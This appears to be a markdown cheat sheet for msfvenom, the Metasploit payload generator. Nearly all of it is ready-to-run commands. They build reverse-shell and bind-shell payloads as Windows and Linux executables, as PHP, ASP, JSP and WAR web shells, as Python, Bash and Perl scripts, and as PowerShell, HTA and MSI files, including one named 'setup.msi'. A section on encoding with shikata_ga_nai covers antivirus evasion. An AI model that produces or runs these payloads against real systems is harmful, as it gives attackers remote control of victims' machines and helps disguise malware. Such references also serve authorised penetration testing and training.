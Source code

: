 # msfvenom

## General Syntax
`msfvenom -p <payload> LHOST=<ip> LPORT=<port> -f <format> -o <outfile>`

- `-p` → payload  
- `LHOST` → local host (attacker)  
- `LPORT` → local port (attacker)  
- `-f` → output format (exe, elf, asp, war, raw, etc.)  
- `-o` → output file  

---

## Common Reverse Shell Payloads

### Windows
- Reverse TCP:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Reverse HTTPS:  
  `msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port> -f exe -o shell.exe`

- Stageless Reverse TCP:  
  `msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o rev.exe`

---

### Linux
- Reverse TCP ELF:  
  `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf`

- Stageless Reverse TCP:  
  `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o rev.elf`

---

### Web Payloads
- PHP Reverse Shell:  
  `msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php`

- ASP Reverse Shell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp`

- JSP Reverse Shell:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp`

- WAR File:  
  `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war`

---

## Bind Shell Payloads

- Windows Bind TCP:  
  `msfvenom -p windows/meterpreter/bind_tcp LPORT=<port> -f exe -o bind.exe`

- Linux Bind TCP:  
  `msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=<port> -f elf -o bind.elf`

---

## Scripting Payloads

- Python:  
  `msfvenom -p python/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -o shell.py`

- Bash:  
  `msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -o shell.sh`

- Perl:  
  `msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -o shell.pl`

---

## Other Formats

- PowerShell:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f psh -o shell.ps1`

- MSI Installer:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o setup.msi`

- HTA (HTML Application):  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o shell.hta`

---

## Encoding & Evasion

- Show encoders:  
  `msfvenom -l encoders`

- Use encoder:  
  `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 5 -f exe -o encoded.exe`

---

## Useful Notes
- Use `msfvenom -l payloads` to list all payloads.  
- Staged payloads = `/meterpreter/reverse_tcp` (require handler).  
- Stageless payloads = `/shell_reverse_tcp` (direct shell).  
- Always set matching `LHOST`/`LPORT` in listener (e.g. Metasploit `multi/handler`).  